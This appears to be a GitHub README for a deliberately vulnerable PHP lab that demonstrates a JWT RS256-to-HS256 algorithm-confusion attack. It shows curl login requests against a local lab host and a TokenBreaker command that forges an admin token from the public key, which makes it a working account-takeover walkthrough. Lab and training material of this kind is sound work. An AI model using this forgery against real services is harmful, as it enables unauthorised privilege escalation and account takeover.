 ## Php-Jwt-Substitution-Attack_Rsa256_to_Hs256


JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA.

https://jwt.io/

## Owasp 

https://owasp.org/www-chapter-vancouver/assets/presentations/2020-01_Attacking_and_Securing_JWT.pdf

https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html


## Setup

install from my dockerhub : https://hub.docker.com/r/mhnamadi/jwt-php-rsa256tohs256


    docker run -ti -p 9090:5000 mhnamadi/jwt-php-rsa256tohs256
    
    docker ps 
    
    docker exec -it ContainerID bash 
    
    service apache2 start
    
    service mysql start 
    
    Done :))    
    
## Description 

         We have 2 account securestore:securestore and admin:admin 
    
         We want to account takeover from securestore to admin account with this attack

## Payload 
  
        Login to securestore and get jwt RSA256
        

1. curl -i -s -k -X $'POST' -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 69' -H $'User-Agent: \ 

Mozilla/5.0(Macintosh; Intel Mac OS X 10.15;rv:97.0) Gecko/20100101 Firefox/97.0' \

--data-binary $'{\"name\": \"login\",\"param\": \{\"user\":\"securestore\",\"pass\":\"securestore\"}}' $'http://192.168.1.104:9090/v3/'

![Getting Started](80.png)


        Login to admin and get jwt RSA256
        
        
2. curl -i -s -k -X $'POST'  -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 57' -H $'User-Agent: \

Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' \

--data-binary $'{\"name\": \"login\",\"param\":{\"user\":\"admin\",\"pass\":\"admin\"}}'  $'http://192.168.1.104:9090/v3/'

![Getting Started](81.png)

3. the first is fuzzing on JWT token securestore and admin account 

![Getting Started](82.png)


![Getting Started](83.png)


4. We want to add "userId":"admin","isAdmin":"true" to secure store account 

        TokenBreaker is one of the best tools for JWT Attack
    
5. https://github.com/cyberblackhole/TokenBreaker    

## Attack 

        Use JWT securestore token and change payload
  
mhs-MacBook-Pro:TokenBreaker mhn$ python3 RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE2NDU0Nzc0NjYsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4NjQ2NiwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.NX6p76T2p5-DfhJcLHTJ64F_-xv6pl1iRFCrm4gDM-UPNpjmm2_1F0pfplcfrlIJEDgBQnMPe3245RLXk_gMWstJ1T3QehJIOMcBTruxbwzOUaOdF3IY-eBfeLgH0854xYnf0MW6rtezWD4a66VecsmjV3sUtRUcujF5ytpx_zqdAyEKT7dZTNLo-Wi8hTszLVhEFy_amLfIKOoWsDh43To3bvJU6OJZ1m8zAFc3Ur87GrL92wv1TToDDvmdrF9uubuZxD1tW6pek0U--DQLmcgegsKLl4_JPQNdxfmS5Eycku09IaA-4a68nrEZOPfyq-1-0lTaB_xlcDVQfFAT-g -p public.pem 

[<] Enter Your Payload value: {"iat":1645479477,"iss":"localhost","exp":1645488477,"userId":"admin","isAdmin":"true"}

[+] Successfully Encoded Token: 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NDU0Nzk0NzcsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4ODQ3NywidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjoidHJ1ZSJ9.MdUsaQIPcVsIggim6PKt91wTsTFcWQwwwI5UIX048i8


![Getting Started](84.png)





